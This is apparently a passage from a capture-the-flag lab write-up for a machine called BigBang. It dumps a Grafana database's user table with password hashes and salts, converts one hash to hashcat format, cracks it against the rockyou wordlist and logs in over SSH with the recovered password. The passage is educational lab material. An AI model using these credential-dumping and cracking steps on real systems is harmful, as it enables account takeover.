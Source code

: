 ```bash
# Command
sqlite3 grafana.db ".dump user"

# Output
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE `user` (
`id` INTEGER PRIMARY KEY AUTOINCREMENT NOT NULL
, `version` INTEGER NOT NULL
, `login` TEXT NOT NULL
, `email` TEXT NOT NULL
, `name` TEXT NULL
, `password` TEXT NULL
, `salt` TEXT NULL
, `rands` TEXT NULL
, `company` TEXT NULL
, `org_id` INTEGER NOT NULL
, `is_admin` INTEGER NOT NULL
, `email_verified` INTEGER NULL
, `theme` TEXT NULL
, `created` DATETIME NOT NULL
, `updated` DATETIME NOT NULL
, `help_flags1` INTEGER NOT NULL DEFAULT 0, `last_seen_at` DATETIME NULL, `is_disabled` INTEGER NOT NULL DEFAULT 0, is_service_account BOOLEAN DEFAULT 0, `uid` TEXT NULL);
INSERT INTO user VALUES(1,0,'admin','admin@localhost','','441a715bd788e928170be7954b17cb19de835a2dedfdece8c65327cb1d9ba6bd47d70edb7421b05d9706ba6147cb71973a34','CFn7zMsQpf','CgJll8Bmss','',1,1,0,'','2024-06-05 16:14:51','2024-06-05 16:16:02',0,'2024-06-05 16:16:02',0,0,'');
INSERT INTO user VALUES(2,0,'developer','ghubble@bigbang.htb','George Hubble','7e8018a4210efbaeb12f0115580a476fe8f98a4f9bada2720e652654860c59db93577b12201c0151256375d6f883f1b8d960','4umebBJucv','0Whk1JNfa3','',1,0,0,'','2024-06-05 16:17:32','2025-01-20 16:27:39',0,'2025-01-20 16:27:19',0,0,'ednvnl5nqhse8d');
COMMIT;
```

The hashes-grafana file looks like this
```bash
7e8018a4210efbaeb12f0115580a476fe8f98a4f9bada2720e652654860c59db93577b12201c0151256375d6f883f1b8d960,4umebBJucv
```
Using the tool to put it into hashcat format
```bash
# Command
python3 grafana2hashcat.py -o hashes hashes-grafana

# Output
sha256:10000:NHVtZWJCSnVjdg==:foAYpCEO+66xLwEVWApHb+j5ik+braJyDmUmVIYMWduTV3sSIBwBUSVjddb4g/G42WA=
```
Using `hashcat` with mode `10900`, we can crack the password of user `developer`
```bash
# Command
hashcat.exe -m 10900 hashes.txt wordlists/rockyou.txt

# Output
sha256:10000:NHVtZWJCSnVjdg==:foAYpCEO+66xLwEVWApHb+j5ik+braJyDmUmVIYMWduTV3sSIBwBUSVjddb4g/G42WA=:bigbang
```
`sshpass -p bigbang ssh developer@bigbang.htb`
